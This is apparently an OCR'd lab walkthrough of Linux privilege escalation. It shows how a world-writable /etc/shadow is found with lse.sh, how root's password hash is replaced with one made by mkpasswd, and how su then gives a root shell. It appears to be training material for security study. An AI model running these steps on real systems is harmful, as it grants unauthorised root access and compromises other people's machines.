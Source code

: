 1. Check the permissions of the /etc /shadow file:

```bash
./lse.sh -l 1 -i | more
```

```bash
ls -l /etc/shadow
```

-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow

Note that it is world writable.

2. Copy / save the contents of /etc/shadow so we can restore it later.

3. Generate a new SHA-512 password hash:

```bash
mkpasswd -m sha-512 newpassword
```

```bash
$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/
```

4. Edit the /etc/shadow and replace the root user’s

password hash with the one we generated.

```bash
root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::
```

5. Use the su command to switch to the root user,

entering the new password when prompted:

```bash
su
```

```bash
newpassword
```

```bash
id
```

uid=0(root) gid=0(root) groups=0(root)

